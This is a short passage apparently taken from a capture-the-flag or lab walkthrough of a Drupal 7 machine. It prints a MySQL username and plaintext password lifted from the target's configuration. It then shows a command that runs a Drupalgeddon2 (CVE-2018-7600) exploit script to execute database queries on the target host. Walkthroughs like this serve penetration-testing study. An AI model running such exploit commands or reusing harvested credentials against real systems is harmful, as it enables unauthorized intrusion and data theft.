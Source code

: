 > There is a mysql credential in here 

```
database: drupal
username: drupaluser
password: CQHEy@9M*m23gBVj
```

![](./IMG/22.png)

> With this credential, I thing it's possible to login to the mysql DB running on localhost on target server
> But I didn't get reverse shell yet, and I tried the following command to check the DB first, it works 
> Now, I'm sure the credential is useful one.

```
python drupa7-CVE-2018-7600.py -c 'mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e "show tables;"' http://10.129.48.89 
```
